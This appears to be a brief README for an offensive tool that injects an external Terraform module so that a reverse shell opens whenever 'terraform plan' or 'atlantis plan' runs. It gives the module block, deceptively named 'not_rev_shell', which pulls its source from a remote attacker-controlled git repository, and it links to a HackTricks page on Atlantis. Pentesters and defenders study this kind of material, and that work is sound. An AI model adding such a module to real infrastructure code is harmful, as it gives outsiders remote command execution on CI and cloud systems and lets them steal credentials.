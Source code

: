 # terraform_external_module_rev_shell

Terraform file external dependency injection to get rev shell when `terraform plan` or `atlantis plan` is run.

```bash
module "not_rev_shell" {
  source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```

More information in https://book.hacktricks.xyz/cloud-security/atlantis

